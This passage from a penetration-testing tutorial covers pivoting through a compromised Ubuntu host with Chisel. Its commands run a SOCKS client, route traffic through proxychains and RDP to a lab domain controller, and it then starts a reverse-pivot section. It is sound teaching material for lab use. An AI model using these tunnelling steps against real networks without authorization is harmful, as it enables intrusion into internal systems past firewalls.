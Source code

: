 The Chisel listener will listen for incoming connections on port 1234 using SOCKS5 (--socks5) and forward it to all the networks that are accessible from the pivot host. In our case, the pivot host has an interface on the 172.16.5.0/23 network, which will allow us to reach hosts on that network.

**4.** Connect to the chisel server

```
#########
# In the attacker machine
#######
./chisel client -v 10.10.10.3:1234 socks
```

Results:

```shell-session
# client: Connecting to ws://10.10.10.3:1234
# client: tun: proxy#127.0.0.1:1080=>socks: Listening
# client: tun: Bound proxies
# client: Handshaking...
# client: Sending config
# client: Connected (Latency 120.170822ms)
# client: tun: SSH connected
```

The Chisel client has created a TCP/UDP tunnel via HTTP secured using SSH between the Chisel server and the client and has started listening on port 1080.

**5.** Now we can modify our proxychains.conf file located at /etc/proxychains4.conf and add 1080 port at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel.

```shell-session
# Edit the proxychains conf file
sudo nano /etc/proxychains4.conf

# Add the line `socks5 127.0.0.1 1080`
```

**6.** Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:$username /p:$password
```


#### Chisel Reverse Pivot

In the previous example, we used the compromised machine (Ubuntu) as our Chisel server, listing on port 1234. Still, there may be scenarios where firewall rules restrict inbound connections to our compromised target. In such cases, we can use Chisel with the reverse option.

| NIC | Attacker machine: kali | Compromised machine Ubuntu | Target: A webserver                                                                          |
| --- | ---------------------- | -------------------------- | -------------------------------------------------------------------------------------------- |
| 1   | 10.10.10.2/24          | 10.10.10.3/24              |                                                                                              |
| 2   |                        | 172.16.5.10/23             | Webserver located at the network range 172.16.5.0/23 with a Domain Controller at 172.16.5.19 |
